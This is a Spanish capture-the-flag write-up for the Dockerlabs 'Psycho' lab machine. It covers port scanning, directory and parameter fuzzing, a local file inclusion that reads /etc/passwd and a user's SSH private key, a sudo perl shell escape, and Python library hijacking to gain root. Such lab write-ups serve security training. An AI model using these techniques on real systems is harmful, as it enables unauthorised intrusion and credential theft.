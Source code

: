 # MACHINE PSYCHO

## Información General

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

  ![machine](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/machine.png)

## DESPLIEGUE
```python
bash auto_deploy.sh psycho.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/despliegue.png)

## RECONOCIMIENTO
```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```ruby
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## EXPLOTACION
![weberro](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/PAGINA%20ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios con gobuster

```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```ruby
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/wfuzz.png)

Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/permisos_id_rsa.png)

```ruby
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```ruby
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gtfobins.png)

```ruby
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/root.png)


# ELIMINAR LA MAQUINA
```shell
Ctrl + C
```






